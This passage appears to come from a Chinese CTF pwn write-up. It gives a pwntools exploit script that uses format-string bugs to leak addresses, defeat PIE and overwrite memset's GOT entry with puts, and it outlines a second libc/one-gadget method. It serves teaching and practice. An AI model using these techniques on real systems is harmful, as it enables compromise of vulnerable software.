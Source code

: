 ```python
ru      = lambda text               :sh.recvuntil(text)
rl      = lambda                    :sh.recvline()
uu32    = lambda                    :u32(sh.recvuntil(b"\xf7")[-4:].ljust(4, b"\x00"))
uu64    = lambda                    :u64(sh.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg      = lambda s                  :sh.success('\033[32m%s -> 0x%x\033[0m' % (s, eval(s)))
lgl     = lambda s, value           :sh.success('\033[32m%s -> 0x%x\033[0m' % (s, value))

#------------------------------------------------------------------------------------------------------#

# 1. 获得main函数的地址，来确定pie偏移
payload1 = b"%45$p"
sla(b"What is your passwd?\n",payload1)
rl()
rec=rl()
fun_ret_addr = int(rec[2:-1],16)
elf.address = fun_ret_addr - 0x1494

# 2. 得到puts函数的got地址（再次泄露）
put_got_addr = elf.got['puts']
print(hex(elf.address))
print(hex(put_got_addr))
payload2 = b"AAA%11$s"+p64(put_got_addr) # 考虑一下为什么 p64(put_got_addr)+b"%10$s" 不行？
sla(b"input error, try again\n",payload2)
rl()

put_got_value = uu64()
lgl("put_got_value",put_got_value)

# 3. 修改memset got的地址为 puts
    # 计算memset got表的地址
memset_got_addr = elf.got['memset']
print(len(b'%'+str(put_got_value).encode() + b'x'+b"%10$nAA"))
# payload3 =b'%' +str(put_got_value).encode()+b'x'+b"%17$nAA"+p64(memset_got_addr) 考虑一下为什么这样写不行?

# print(p64(put_got_value))
# for i in p64(put_got_value):
#      print(hex(i))

payload3 =fmtstr_payload(10, {memset_got_addr: put_got_value}) 
#print(hex(p64(memset_got_addr)[0]))
print(payload3)
sla(b"input error, last chance\n",payload3)
print(ru(b"no chance\n"))
```
**方法二：**

1. **泄露main函数地址，算出pie的偏移**
2. **泄露libc地址**
3. **使用onegadget工具**
